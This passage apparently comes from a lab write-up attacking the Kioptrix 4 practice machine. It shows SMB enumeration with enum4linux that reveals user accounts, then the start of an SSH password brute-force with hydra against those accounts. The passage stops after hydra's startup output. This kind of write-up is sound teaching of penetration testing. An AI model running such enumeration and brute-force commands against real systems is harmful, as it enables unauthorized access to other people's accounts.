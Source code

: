 Full TCP scan yields the same results.

_____________________________________________________________________________

## 2\. SMB enumeration

`enum4linux` is the tool to go for enumerating these services, you might need to use other ones line smbwalk or nmap scripts.

The output showed many unwanted information but the following info interests us:

```console
root@kali:~# enum4linux 192.168.1.69

 ======================================
|    OS information on 192.168.1.69    |
 ======================================
[+] Got OS info for 192.168.1.69 from smbclient: Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.28a]
[+] Got OS info for 192.168.1.69 from srvinfo:
 KIOPTRIX4      Wk Sv PrQ Unx NT SNT Kioptrix4 server (Samba, Ubuntu)
 platform_id     : 500
 os version      : 4.9
 server type     : 0x809a03

 =============================
|    Users on 192.168.1.69    |
 =============================
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody Name: nobody Desc: (null)
index: 0x2 RID: 0xbbc acb: 0x00000010 Account: robert Name: ,,, Desc: (null)
index: 0x3 RID: 0x3e8 acb: 0x00000010 Account: root Name: root Desc: (null)
index: 0x4 RID: 0xbba acb: 0x00000010 Account: john Name: ,,, Desc: (null)
index: 0x5 RID: 0xbb8 acb: 0x00000010 Account: loneferret Name: loneferret,,, Desc: (null)
```


  * **SMB version:** `Samba 3.0.28a` (Unfortunately none of the public exploits for this version worked).
  * **Users found:** `robert`, `root`, `john` and `loneferret`.

Let's first bruteforce SSH for the 4 users we found using `hydra`.

```console
root@kali:~# hydra -L users -P 10_million_password_list_top_1000.txt -t 4 192.168.1.69 ssh -vv
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-12-28 16:01:57
[DATA] max 4 tasks per 1 server, overall 64 tasks, 4000 login tries (l:4/p:1000), ~15 tries per task
[DATA] attacking service ssh on port 22
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://192.168.1.69:22
[INFO] Successful, password authentication is supported by ssh://192.168.1.69:22
```
